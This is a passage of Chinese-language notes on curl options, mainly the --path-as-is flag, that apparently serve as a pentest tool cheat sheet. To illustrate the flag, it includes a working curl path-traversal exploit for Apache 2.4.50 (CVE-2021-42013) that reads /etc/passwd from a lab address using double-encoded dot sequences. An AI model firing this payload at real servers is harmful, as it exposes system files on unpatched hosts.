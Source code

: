 ......

![image-20230102010347548](http://cdn.ayusummer233.top/img/202301020103804.png)

---

#### --path-as-is

 Do not squash .. sequences in URL path

不压缩 URL path 中的 .. 序列, 在做目录遍历的时候会用到

比如 **Apache HTTP Server 2.4.50 路径穿越漏洞(CVE-2021-42013) ** 

如果直接发明文的 .. 且不用 `--path-as-is` 的话就会把 `../` 全丢掉

```
curl -v http://192.168.2.31:8080/icons/../../../../../../../etc/passwd
```

> ![image-20230102004413573](http://cdn.ayusummer233.top/img/202301020044787.png)

正确的利用方式: 

```bash
curl -v --path-as-is http://192.168.2.31:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![image-20230101220853878](http://cdn.ayusummer233.top/img/202301012208415.png)

使用了 `-v`参数输出通信的整个过程，用于调试。又使用了 `--path-as-is` 从而不压缩 `..` 序列

![image-20230102003813664](http://cdn.ayusummer233.top/img/202301020044161.png)

> 如果不使用 `--path-as-is` 则
>
> ![image-20230102004636433](http://cdn.ayusummer233.top/img/202301020047898.png)
>
> ![image-20230102004028870](http://cdn.ayusummer233.top/img/202301020044128.png)
>
> 与之前一样, 可以利用成功, 流量也一致, 说明 `--path-as-is` 只对明文的 `..` 生效, 编了码的话就没必要再加该参数了


---

## Tcpreplay

```bash
# 安装
apt install tcpreplay
```

